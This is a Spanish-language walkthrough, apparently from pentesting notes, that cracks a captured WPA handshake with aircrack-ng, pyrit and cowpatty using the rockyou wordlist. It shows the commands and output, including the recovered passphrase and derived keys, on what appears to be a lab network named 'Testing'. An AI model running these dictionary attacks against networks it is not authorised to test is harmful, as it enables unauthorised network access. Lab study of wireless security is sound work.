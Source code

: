 ## Fuerza bruta con Aircrack para obtener la contraseña de la red

```bash
┌─[root@kali]─[/Documents/WiFi/]
└──╼ aircrack-ng -w /usr/share/wordlists/rockyou.txt Captura-01.cap


                               Aircrack-ng 1.6 

      [00:00:30] 164925/14344392 keys tested (5524.94 k/s) 

      Time left: 42 minutes, 46 seconds                          1.15%

                           KEY FOUND! [ Hello123 ]


      Master Key     : DD 19 90 BE A5 30 19 BB 8C 09 14 7D E7 2B B2 F7 
                       22 D0 09 B9 3D B4 02 FA 98 D7 9A 94 C4 76 C8 43 

      Transient Key  : 4B A1 6C E7 03 56 AD F7 47 62 F5 D7 78 DB A0 49 
                       DE 0F 4B 82 81 1B 9E F9 09 6C 83 D9 AA 01 16 8E 
                       E7 02 A1 91 AE CE 5C B5 01 60 99 CA 90 24 5F 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 

      EAPOL HMAC     : B5 CA CB CB A0 02 7F A8 3E A7 B1 DF 00 BF 28 43 
```

## Cracking con Pyrit

```bash
┌─[root@kali]─[/Documents/WiFi/]
└──╼ pyrit -r Captura-02.cap -e Testing -i /usr/share/wordlists/rockyou.txt attack_passthrough

Pyrit 0.5.1 (C) 2008-2011 Lukas Lueg - 2015 John Mora
https://github.com/JPaulMora/Pyrit
This code is distributed under the GNU General Public License v3+

Parsing file 'Captura-02.cap' (1/1)...
Parsed 2979 packets (2979 802.11-packets), got 1 AP(s)

Picked AccessPoint d8:5d:4c:ff:cc:5a automatically...
Tried 100005 PMKs so far; 2237 PMKs per second. datalife

The password is 'Hello123'.
```

## Cracking con Cowpatty

```bash
┌─[root@kali]─[/Documents/WiFi/]
└──╼ cowpatty -r Captura-02.cap -f /usr/share/wordlists/rockyou.txt -s Testing

cowpatty 4.8 - WPA-PSK dictionary attack. <jwright@hasborg.com>

Collected all necessary data to mount crack against WPA2/PSK passphrase.
Starting dictionary attack.  Please be patient.
key no. 1000: skittles1
key no. 2000: princess15
key no. 3000: unfaithful
key no. 4000: andresteamo
key no. 5000: hennessy
........
```